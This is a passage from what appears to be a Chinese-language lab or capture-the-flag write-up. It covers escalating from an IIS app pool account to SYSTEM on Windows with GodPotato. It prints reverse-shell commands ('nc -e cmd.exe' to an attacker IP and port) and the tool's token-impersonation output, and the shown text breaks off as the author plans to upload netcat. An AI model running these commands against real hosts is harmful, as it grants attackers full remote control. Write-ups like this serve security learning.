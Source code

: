 幸福来得就是这么突然，尝试反弹shell！

```bash
GodPotato-NET4.exe -cmd "nc -t -e C:\Windows\System32\cmd.exe 172.20.10.8 4321"
```

报错了：

```bash
C:\inetpub\wwwroot>whoami
whoami
iis apppool\defaultapppool

C:\inetpub\wwwroot>GodPotato-NET4.exe -cmd "nc -t -e C:\Windows\System32\cmd.exe 172.20.10.8 4321"
GodPotato-NET4.exe -cmd "nc -t -e C:\Windows\System32\cmd.exe 172.20.10.8 4321"
[*] CombaseModule: 0x140709567922176
[*] DispatchTable: 0x140709570239728
[*] UseProtseqFunction: 0x140709569615008
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] CreateNamedPipe \\.\pipe\c855dd94-4606-441d-ba39-05ae24258766\pipe\epmapper
[*] Trigger RPCSS
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 00007c02-00b0-ffff-7897-24954097877e
[*] DCOM obj OXID: 0xc751c8256ce3cfb8
[*] DCOM obj OID: 0x5f567f9907eaaa76
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\Servicio de red
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 764 Token:0x860  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[!] Cannot create process Win32Error:2
```

```bash
GodPotato-NET4.exe -cmd "nc 172.20.10.8 4321 -e c:\windows\system32\cmd.exe "
```

失败。。。难道。。。

```bash
C:\inetpub\wwwroot>nc
nc
"nc" no se reconoce como un comando interno o externo,
programa o archivo por lotes ejecutable.
```

忘了这一茬了。。。上传一个！

